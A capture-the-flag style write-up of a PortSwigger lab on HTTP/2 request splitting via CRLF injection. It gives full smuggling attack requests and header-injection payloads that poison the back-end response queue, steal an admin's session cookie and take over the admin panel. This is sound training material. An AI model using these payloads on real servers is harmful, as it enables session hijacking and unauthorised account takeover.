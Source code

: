 # HTTP/2 request splitting via CRLF injection

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection), you'll learn: HTTP/2 request splitting via CRLF injection! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, delete the user `carlos` by using [response queue poisoning](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning) to break into the admin panel at `/admin`. An admin user will log in approximately every 10 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

> Note:
> This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
>  
> Please note that this feature is only available from [Burp Suite Professional / Community 2021.9.1](https://portswigger.net/burp/releases).

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215180904.png)

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215180932.png)

In here, we see the web application has a login page. If we can capture some users' requests, we could hijack their accont!

To do so, we can try to exploit **HTTP request smuggling vulnerability**.

**Now, we can try to send a HTTP/2 (HTTP version 2) request:**

> Note: To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
>  
> ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215181300.png)
>  
> ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215181317.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215181329.png)

As you can see, **the web application accepts HTTP/2**.

Now, we can try to test it's vulnerable to **H2.CL** (Front-end uses HTTP/2, back-end uses `Content-Length` header),or **H2.TE** (Back-end uses `Transfer-Encoding` header).

- H2.CL:

**Attack request:**
```http
POST / HTTP/2
Host: 0a260048048eb6b8c19b638500330014.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /404pls HTTP/1.1
Host: 0a260048048eb6b8c19b638500330014.web-security-academy.net
Content-Length: 25

smuggled=yes
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215181656.png)

Nope.

- H2.TE:

**Attack request:**
```http
POST / HTTP/2
Host: 0a260048048eb6b8c19b638500330014.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X-Foo: x
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215181807.png)

Still nope.

Hmm... We can also try to do **request smuggling via CRLF (Carriage Return `\r`, Line Feed `\n`) injection**.

In HTTP/2, we can downgrade the request to HTTP/1 (As you can see in the above attack requests). We can also perform response queue poisoning, which splitting a single HTTP request into exactly two complete requests on the back-end. In that attack, the split occurred inside the message body, but when HTTP/2 downgrading is in play, we can also cause this split to occur in the headers instead.

This approach is more versatile because we aren't dependent on using request methods that are allowed to contain a body. For example, we can even use a `GET` request:

```http
:method GET
:path /
:authority vulnerable-website.com
foo bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

This is also useful in cases where the `Content-Length` is validated and the back-end doesn't support chunked encoding.

But before we do that, we need to **accout for front-end rewriting**.

To split a request in the headers, we need to understand how the request is rewritten by the front-end server and account for this when adding any HTTP/1 headers manually. Otherwise, one of the requests may be missing mandatory headers.

For example, we need to ensure that both requests received by the back-end contain a `Host` header. Front-end servers typically strip the `:authority` pseudo-header and replace it with a new HTTP/1 `Host` header during downgrading. There are different approaches for doing this, which can influence where you need to position the `Host` header that you're injecting.

Consider the following request:

```http
:method GET
:path /
:authority vulnerable-website.com
foo bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

During rewriting, some front-end servers append the new `Host` header to the end of the current list of headers. As far as an HTTP/2 front-end is concerned, this after the `foo` header. Note that this is also after the point at which the request will be split on the back-end. This means that the first request would have no `Host` header at all, while the smuggled request would have two. In this case, we need to position your injected `Host` header so that it ends up in the first request once the split occurs:

```http
:method GET
:path /
:authority vulnerable-website.com
foo bar\r\n
Host: vulnerable-website.com\r\n
\r\n
GET /admin HTTP/1.1
```

We'll also need to adjust the positioning of any internal headers that we want to inject in a similar manner.

Armed with above information, let's **poison the response queue via request splitting and CRLF injection**:

- Adding a new header with CRLF injection:

```
Name: foo

Value: bar\r\n
\r\n
GET /404pls HTTP/1.1\r\n
Host: 0a260048048eb6b8c19b638500330014.web-security-academy.net
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215183428.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215184037.png)

> Note: To inject newlines into HTTP/2 headers, use the Inspector to drill down into the header, then press the `Shift + Return` keys. Note that this feature is not available when you double-click on the header.

**Then, send the request twice to fetch an arbitrary response, if we recieved a 404 response, that's our own poisoned 404 response:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215184257.png)

**Any other response code indicates that you have successfully captured a response intended for the admin user:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215184527.png)

Nice! We successfully captured admin user's session cookie!

**Let's modify our session cookie to the admin one!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215184624.png)

**After that, go to the admin panel and delete user `carlos`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215184647.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215184656.png)

# What we've learned:

1. HTTP/2 request splitting via CRLF injection